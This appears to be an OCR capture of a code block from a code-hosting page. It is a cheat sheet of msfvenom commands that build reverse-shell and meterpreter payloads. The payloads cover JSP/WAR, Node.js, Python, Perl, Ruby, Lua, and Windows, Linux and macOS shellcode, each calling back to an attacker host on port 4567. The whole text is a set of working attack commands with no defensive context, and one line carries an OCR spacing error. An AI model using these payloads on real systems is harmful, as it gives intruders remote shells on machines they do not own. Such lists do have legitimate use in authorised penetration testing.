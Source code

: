 ```shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

---

nodejs

msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.js

---

python

msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.py

---

perl

msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.pl

---

ruby

msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

---

lua

msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

---

windows shellcode

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

linux shellcode

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

---

mac shellcode

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp  LHOST=192.168.1.1  LPORT=4567 -f c

---



```
